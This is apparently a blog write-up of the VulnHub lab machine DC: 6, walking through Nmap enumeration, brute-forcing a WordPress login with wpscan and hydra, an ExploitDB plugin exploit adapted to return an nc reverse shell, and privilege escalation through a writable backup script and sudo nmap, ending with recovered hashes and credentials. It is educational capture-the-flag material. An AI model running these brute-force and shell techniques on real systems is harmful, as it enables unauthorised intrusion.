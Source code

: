 [VulnHub] DC: 6
===============
date: 10/Sep/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [DC: 6](https://www.vulnhub.com/entry/dc-6,315/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_dc6/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_dc6/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.4.25 ((Debian))`: [enumerate_app_wordpress](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [exploit_wordpress_plugin_activitymonitor](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [privesc_mysql_creds](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [privesc_sudo](https://github.com/7h3rAm/writeups#privesc_sudo), [privesc_nmap](https://github.com/7h3rAm/writeups#privesc_nmap)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Tue Sep 10 18:09:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/dc6/results/wordy/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/dc6/results/wordy/scans/xml/_quick_tcp_nmap.xml wordy
Nmap scan report for wordy (192.168.92.170)
Host is up, received arp-response (0.00024s latency).
Scanned at 2019-09-10 18:09:51 PDT for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDHiBBFUtpw1T9DZyoXpMp3kg25/RgmGZRFFmZuTfV9SJPxJCvrQXdM6P5GfFLFcgnLlcOBhBbv33N9HvWisycRypK0uLK26bntqfyTAFCdMXcud7fKNgRBxJdN8onwl4Hly3wzRBJxFWqTdD1RF8viYH4TYIs5+WLpN7KihosjpbwzPpOnbDQZUw7GdHvosV7dFI6IMcF57R4G5LzSgV66GACNGxRn72ypwfOMaVbsoxzCHQCJBvd8ULL0YeAFtNeHoyJ8tL3dZlu71Wt9ePYf7ZreO+en701iDqL6T/iyt3wwTDl7NwpZGj5+GrlyfRSFoNyHqdd0xjPmXyoHynp
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE+jke+7np4l7EWf0wgySSp3MtYFcI6klVOWm7tDjas8eDxc9jYOhR4uK7koa2CkQPDd18XJSt0yNAGQFBb7wzI=
|   256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII1mnJveN8yJySEDhG8wjYqtSKmcYNdX5EVqzxYb92dP
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Wordy &#8211; Just another WordPress site
MAC Address: 00:0C:29:F1:97:73 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 10 18:09:59 2019 -- 1 IP address (1 host up) scanned in 8.96 seconds
```

2\. Here a summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_dc6/openports.png.webp)  

3\. We start with `80/tcp` and are presented with a `Wordpress` installation. We run `wpscan` to enumerate users and find 5 hits:  
```
admin, graham, mark, sarah and jens
```

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot01.png.webp)  

### Findings
#### Open Ports
```
22/tcp  |  ssh   |  OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.25 ((Debian))
```
#### Users
```
ssh: graham, mark, sarah, jens
wordpress: admin, graham, mark, sarah, jens
```

## Phase #2: Exploitation
1\. The VulnHub page for this VM gave a clue to create a custom wordlist from `rockyou.txt` to save time on bruteforce. This was a good starting point:  
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
```
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot04.png.webp)  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
```
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot02.png.webp)  

4\. We use these credentials and login as user `mark`:  

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot03.png.webp)  

5\. This installation has `Activity Monitor` plugin installed. There's an exploit for this plugin on ExploitDB:  

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot16.png.webp)  

6\. We update the exploit with right IPs and chnage the `nc` commandline. This file when opened shows a HTML button which when clicked will execute the command and return a reverse shell:  

![writeup.exploitation.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot08.png.webp)  

![writeup.exploitation.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot09.png.webp)  

![writeup.exploitation.steps.6.3](/static/files/posts_vulnhub_dc6/screenshot05.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@dc-6> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-6>  
www-data@dc-6> uname
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
www-data@dc-6>  
www-data@dc-6> ifconfig
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
  link/ether 00:0c:29:f1:97:73 brd ff:ff:ff:ff:ff:ff
  inet 192.168.92.170/24 brd 192.168.92.255 scope global eth0
     valid_lft forever preferred_lft forever
  inet6 fe80::20c:29ff:fef1:9773/64 scope link
     valid_lft forever preferred_lft forever
www-data@dc-6>  
www-data@dc-6> users
graham
mark
sarah
jens
```

## Phase #3: Privilege Escalation
1\. Exploring the filesystem, we come across `/var/www/html/wp-config.php` file that has MySQL credentials in it:  
```
wpdbuser/meErKatZ
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_dc6/screenshot06.png.webp)  

2\. We also extract hashes for all Wordpress users from `wp_users` table:  

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot07.png.webp)  

3\. Exploring filesystem further, we find credentials for user `graham` within the `/home/mark/stuff/things-to-do.txt` file:  
```
graham/GSo7isUM1D4
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot11.png.webp)  

4\. We `ssh` into the system as user `graham` to gain interactive access:  

![writeup.privesc.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot12.png.webp)  

5\. User `graham` can edit and execute the `/home/jens/backups.sh` as user `jens`. We modify the script to execute a shell and gain interactive access as user `jens`:  

![writeup.privesc.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot13.png.webp)  

6\. User `jens` can execute `/usr/bin/nmap` as `root`. We use this to gain elevated privileges and read the flag:  

![writeup.privesc.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot14.png.webp)  

![writeup.privesc.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot15.png.webp)  

## Loot
### Hashes
```
root:$6$kdMFceEg$pk9h93tdD7IomhE7L0Y396HO6fxSM.XDh9dgeBhKpdZlM/WYxCZe7yPRNHfZ5FvNRuILVp2NOsqNmgjoS........................
graham:$6$WF7GkVxM$MOL.cXLpG6UTO0M4exCUFwOEiUhW6bwQa.Frg9CerQbTp.EW4QTzEAuio26Aylv.YP0JPAan10tsUFv6k........................
mark:$6$//1vISW6$9pl2v8Jg0mNE7E2mgTQlTwZ1zcaepnDyYE4lIPJDdX7ipnxm/muPD7DraEm3z0jqDe5iH/Em2i6YXJpQD........................
sarah:$6$DoSO7Ycr$2GtM5.8Lfx9Sw8X1fDMF.7zWDoVoy1892nyp0iFsqh5CfmtEROtxmejvQxu0N/8D7X8PQAGKYGl.gUb6/........................
jens:$6$JWiFWXb8$cGQi07IUqln/uLLVmmrU9VLg7apOH9IlxoyndELCGjLenxfAaVec5Gjaw2DA0QHRwS9hTB5cI2sg/Wk1O........................
```
### Credentials
```
mysql: wpdbuser/meEr....
ssh: graham/GSo7isU....
wordpress: mark/helpdes...
```

## References
* <https://www.vulnhub.com/entry/dc-6,315/>  
* <https://diaryof0x41.wordpress.com/2019/05/29/vulnhub-dc-6-walkthrough/>  

